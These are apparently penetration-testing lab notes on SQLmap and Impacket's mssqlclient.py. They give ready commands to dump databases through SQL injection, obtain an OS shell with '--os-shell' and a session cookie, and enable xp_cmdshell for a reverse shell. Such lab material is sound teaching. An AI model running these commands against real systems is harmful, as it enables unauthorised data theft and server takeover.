 ## SQLmap
SQLmap is an open-source tool used in penetration testing to detect and exploit SQL  injection flaws. SQLmap automates the process of detecting and exploiting SQL  injection. SQL Injection attacks can take control of databases that utilize SQL.

If we needed authentication to access to the web we will need to add the cookies value to the command. For doing that we can use Cookie-Editor, explained in [[Useful Resources]].

#### Example 1

We can use *sqlmap* specifying the target url:
- *Parameters*:
	- `-u`: Specifies the target URL to be tested for SQL injection vulnerabilities. In this case, the target URL is http://192.168.1.102/administrator
	    
| Option                    | Description                                                                                                                       |
|---------------------------|-----------------------------------------------------------------------------------------------------------------------------------|
| `-u`                       | Specifies the target URL to be tested for SQL injection vulnerabilities. Example: `http://192.168.1.102/administrator`.          |
| `--batch`                  | Runs sqlmap in batch mode, performing operations automatically without prompting for user input.                                  |
| `--dbs`                    | Instructs sqlmap to enumerate the available databases on the database server.                                                     |
| `--tables`                 | Instructs sqlmap to enumerate the available tables in the selected database.                                                      |
| `--level (1-5, default 1)` | Defines the scope of vectors and boundaries used for injection. Higher levels involve more obscure techniques with lower success. **Levels:** 1 (default): Basic tests, minimal impact. 2: Extends tests to more techniques, might cause some disruption. 3: More advanced techniques, higher chance of impacting the target. 4-5: Highly specific and risky techniques, use with caution. |
| `--risk (1-3, default 1)`  | Controls the types of exploit vectors based on their potential risk. **Levels:** 1 (default): Low-risk techniques, unlikely to cause harm. 2: Includes techniques with moderate risk of data loss or denial-of-service. 3: Attempts all techniques, including disruptive or data-altering ones (use responsibly). |


```bash
sqlmap -u http://192.168.1.102/administrator --forms --dbs --batch
```

After using this command the available databases will be printed, then you can enumerate  the tables stored in each database:

```bash
sqlmap -u http://192.168.1.102/administrator --forms -D <database_name> --tables --batch
```

Once you have introduced this command, the available columns in the database will be printed. Now to find the content of the columns you need to use the following command:
```bash
sqlmap -u http://192.168.1.102/administrator --forms -D <database_name> -T <Columns_name> --columns --batch
```

Finally, you can print the columns information using:
```bash
sqlmap -u http://192.168.1.102/administrator --forms -D <database_name> -T <Columns_name> -C <parameter1>,<parameter2><parameter3> --dump --batch	
```

#### Example 2	
For a most exhaustive analysis, we can save the vulnerable request with _save item_ in Burp Suite. The field in which the insertion will be made in this example is **id**, previously investigated in Burp Suite.

| Option               | Description                                                                                                            |
| -------------------- | ---------------------------------------------------------------------------------------------------------------------- |
| `-r pc`              | Specifies the file that contains the saved HTTP request, named "pc" in this case. It will be used as input for sqlmap. |
| `-p id`              | Indicates the name of the URL or body parameter in the HTTP request to be tested for SQL injection. Example: `id`.     |
| `--dbs`              | Instructs sqlmap to enumerate the available databases on the database server.                                          |
| `--tables`           | Instructs sqlmap to enumerate the available tables in the selected database.                                           |
| `-D SQLite_masterdb` | Specifies the name of the database where operations will be performed. Example: `SQLite_masterdb`.                     |
| `-T accounts`        | Specifies the name of the table on which operations will be performed. Example: `accounts`.                            |
| `--columns`          | Instructs sqlmap to enumerate the available columns in the specified table.                                            |
| `--batch`            | Runs sqlmap in batch mode, performing the operations automatically without prompting for user input.                   |
| `--threads 5`        | Specifies the number of threads sqlmap will use simultaneously. Example: 5 threads.                                    |
| `--dump`             | Extracts the data from the specified table and displays it as output.                                                  |

- Find databases:
```bash
sqlmap -r pc -p id  --dbs	
```
- Find tables in a specific database:	
```bash
sqlmap -r pc -p id -D <database_name> --tables  
```
- Find columns in a specific table:
```bash
sqlmap -r pc -p id -D <database_name> -T <table_name> --columns 
```
- Dump columns content
```bash
sqlmap -r pc -p id -D <database_name> -T <table_name> --dump --columns "<column1_name>,<column2_name>,<column3_name>"
```

#### Exemple 3
| Option            | Description                                                                                                      |
|-------------------|------------------------------------------------------------------------------------------------------------------|
| `-u`               | Specifies the target URL to be tested for SQL injection vulnerabilities. Example: `http://10.129.95.174/dashboard.php?search=any+query` |
| `--cookie`        | Sets the cookie value for the HTTP request. Cookies maintain session information. Example: `PHPSESSID=7u6p9qbhb44c5c1rsefp4ro8u1` |
| `--os-shell`      | Attempts to obtain an operating system shell on the vulnerable server if SQL injection is successful. This provides direct interaction with the operating system. |

```bash
sqlmap -u 'http://10.129.95.174/dashboard.php?search=any+query' --  
cookie="PHPSESSID=7u6p9qbhb44c5c1rsefp4ro8u1" --os-shell
```
## mssqlclient.py 
mssqlclient.py is a script from the Impacket class collection. When mssqlclient.py is executed, a connection is established with the specified SQL Server and it allows interaction through a command-line interface.

- `windows-auth`: This flag is specified to use Windows Authentication.
- `ARCHETYPE/sql_svc`: Server ID (previously found).
````bash
python3 mssqlclient.py ARCHETYPE/sql_svc@{TARGET_IP} -windows-auth
````

In case `xp_cmdshell` is not enabled (which is the command we will use for a reverse shell), perform the following steps:
````bash
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
sp_configure; -- Enabling the sp_configure as stated in the above error message
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;

````

